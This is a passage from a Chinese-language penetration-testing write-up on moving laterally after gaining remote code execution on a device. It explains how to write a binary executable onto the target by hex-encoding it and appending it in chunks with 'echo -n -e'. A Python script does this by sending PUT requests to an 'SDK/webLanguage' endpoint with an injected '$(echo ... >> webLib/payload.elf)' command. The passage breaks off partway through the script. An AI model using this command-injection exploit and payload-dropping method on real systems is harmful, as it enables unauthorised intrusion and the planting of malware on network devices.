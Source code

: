 成功建立了一条通向内网的代理

### 6\. 通过 echo 写文件

一般到上一步代理搭建完成，就继续进行横向渗透了，但是并不是所有的 RCE 都能有机会建立 `ssh` 隧道，我们要找到一条更加通用的方法，最通用的方法应该就是 `echo` 写文件了

如果是文本文件，我们直接通过 `cat` 就可以写进去，但是二进制可执行文件用 `cat` 就不是很好写了，上面我们也尝试了通过管道 + `cat` ，也失败了

如果想将一个二进制可执行文件写入这个过程用 `PoC` 来完成，需要让二进制可执行文件以可读字符的形式进行编码，对于常规系统，经常将二进制可执行文件进行 base64 编码，之后传递，但是在受限的 shell 中，并没有提供 base64 解码工具，所以这次得用 16 进制格式进行编码，编码后的内容通过 `echo -n -e` 写入到文件中

-   \-n 禁止添加换行符
    
-   \-e 启用转义字符的解析
    

这两个选项有效地将 16 进制表示的二进制可执行文件一点一点写入到文件中

所以这里涉及两个步骤

1.  将二进制可执行文件转化为 `\x00` 这种格式
    
2.  循环将文件一点一点写进去
    

这里直接用一个 `Python` 脚本来完成

```plain
import requests
import sys
import urllib.parse

def read_string(string, chunk_size=2000):
    start = 0
    while start < len(string):
        end = start + chunk_size
        chunk = string[start:end]
        yield chunk
        start = end

# 构建请求头部
headers = {
    'User-Agent': 'python-requests/2.22.0',
    'Accept-Encoding': 'gzip, deflate',
    'Accept': '*/*',
    'Connection': 'close',
    'X-Requested-With': 'XMLHttpRequest',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Accept-Language': 'en-US,en;q=0.9,sv;q=0.8',
}

def sendPayload(target, poc_data):
    # 设置要发送的数据
    data = '<?xml version="1.0" encoding="UTF-8"?><language>$(echo -n -e "' + poc_data + '" >> webLib/payload.elf)</language>'
    url = urllib.parse.urljoin(target, 'SDK/webLanguage')

    # 发送请求
    response = requests.put(url, headers=headers, data=data)
    
    # 检查响应状态码等，确保请求成功
    if response.status_code == 500:
        return True
    return False

if len(sys.argv) < 3:
    print("Usage: python script.py <target_address> <file_path>")
    sys.exit(1)

```